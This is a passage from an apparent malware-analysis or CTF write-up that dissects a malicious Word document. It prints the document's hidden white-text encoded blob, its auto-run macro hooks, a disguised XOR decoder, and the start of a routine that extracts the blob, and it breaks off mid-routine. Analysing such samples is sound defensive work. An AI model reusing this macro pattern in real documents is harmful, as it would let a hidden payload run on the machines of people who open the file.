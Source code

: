 If we scroll further down, there is some 1pt white text hidden in the document as well:

```
-----BEGIN CERTIFICATE-----
elVNCn5Ya15eb11EbllHb3BCWVFWeHFxdVRbXhARFQ==
-----END CERTIFICATE-----
```

Word also immediately asks whether macros should be enabled. Well of course, what could go wrong!

And that triggers an error, but also conveniently reveals the macro source code. A couple of the functions in the code are just to trigger another function called `a` upon opening the file:

```vba
Sub Workbook_Open()
    a
End Sub

Sub AutoOpen()
    a
End Sub
```

There is also a `Base64Decode` function which is interesting but it really does what its name would suggest, so there is not much need to look into it.

Then there is a `Blah` function:

```vba
Function Blah(ByVal sData As String, ByVal sKey As String) As String
    Dim l As Long, i As Long, byIn() As Byte, byOut() As Byte, byKey() As Byte
    byIn = sData
    byOut = sData
    byKey = sKey
    l = LBound(byKey)
    For i = LBound(byIn) To UBound(byIn) - 1 Step 2
        byOut(i) = (byIn(i) Xor byKey(l))
        l = l + 2
        If l > UBound(byKey) Then l = LBound(byKey)
    Next i
    XorC = byOut
End Function
```

It takes some `data` and a `key`, both strings. The `key` is repeated over the length of the input `data`, and the output is just `data` XOR'd with the `key`. This is a simple XOR decryption function. The `l = l + 2` line suggests that the key characters are not used in the same order as they are given to the function, but this is misleading – Windows systems store strings using a wide character encoding, i.e. each character is 2 bytes. Assuming the `key` and `data` are not high Unicode characters, only XOR'ing the first byte of each wide character suffices for decryption. Additionally, the last line would suggest the function was originally called `XorC`, then renamed to `Blah`.

Finally, the actual `a` function, which is called upon opening the document:

```vba
Sub a()
    Dim s As String
    x2 = Application.LanguageSettings.LanguageID(msoLanguageIDUI)
    Set fso = CreateObject("Scripting.FileSystemObject")
    s = ActiveDocument.Content.Text
    x = "-----BEGIN CERTIFICATE-----"
    y = "-----END CERTIFICATE-----"
    Z = InStr(s, x)
    If Z > 0 Then
        s = Mid(s, Z + Len(x))
        s = Mid(s, 1, InStr(s, y) - 1)
        s = Replace(s, "-", vbNullString)
        s = Replace(s, vbCr, vbNullString)
        s = Replace(s, vbLf, vbNullString)
```